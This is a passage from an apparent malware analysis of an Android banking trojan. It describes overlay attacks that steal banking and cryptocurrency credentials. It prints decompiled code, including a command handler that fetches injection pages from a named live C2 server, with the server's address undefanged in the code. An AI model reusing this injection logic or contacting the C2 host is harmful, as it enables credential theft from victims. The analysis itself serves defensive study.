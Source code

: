 ```cs
            this.prefsEditor().putBoolean("is2FARequested", boolean0.booleanValue()).apply();
            return boolean0.booleanValue();
        }

        return this.prefs().getBoolean("is2FARequested", false);
    }

    public static boolean is2FARequested$default(Preferences preferences0, Boolean boolean0, int v, Object object0) {
        if(object0 == null) {
            if((v & 1) != 0) {
                boolean0 = null;
            }

            return preferences0.is2FARequested(boolean0);
        }

        throw new UnsupportedOperationException("Super calls with default arguments not supported in this target, function: is2FARequested");
    }
```

The malware will perform overlay attack when the victim opens a specific app usually banking apps or cryptocurrency apps to steal the victim's credentials. In prevouis versions, the malware puts targeted apps in `packageList.txt` in `assets/` folder. In version 5, the malware will request all installed packages on the victim's device, and then reqest needed WebViews for targeted apps. The command `openinject` will open the downloaded WebView by requesting `injectlist` from the C2 server `satandemantenimiento[].]com` when a targeted app opened. The malware knows that the vicitm opens a targeted app by monitoring the screen. 

```cs
  if(Intrinsics.areEqual(s, "openinject")) {
                            Companion browserActivity$Companion0 = BrowserActivity.Companion;
                            Context context7 = workerService0.getApplicationContext();
                            Intrinsics.checkNotNullExpressionValue(context7, "workerService.applicationContext");
                            StringBuilder stringBuilder0 = new StringBuilder().append("http://satandemantenimiento.com").append("/downloadinject?access=").append("1").append("&packagename=");
                            List list0 = command0.getInjectlist();
                            if(list0 != null) {
                                inject0 = (Inject)list0.get(0);
                            }

                            Intrinsics.checkNotNull(inject0);
                            workerService1.startActivity(browserActivity$Companion0.newInstance(context7, stringBuilder0.append(inject0.getPacket()).append("&type=html").toString(), ((Inject)command0.getInjectlist().get(0)).getGetcookie(), ((Inject)command0.getInjectlist().get(0)).getPacket()).addFlags(0x10000000));
                            return;
                        }
 if(Intrinsics.areEqual(s, "enableinject")) {
                                this.scanInject(command0, workerService0);
                                return;
                            }
 if(Intrinsics.areEqual(s, "disableinject")) {
                                Preferences preferences1 = workerService0.getPreferences();
                                List list1 = command0.getInjectlist();
                                Intrinsics.checkNotNull(list1);
                                preferences1.deleteInjects(list1);
                                return;
```
And the `scanInject` class to update the list of targeted apps.
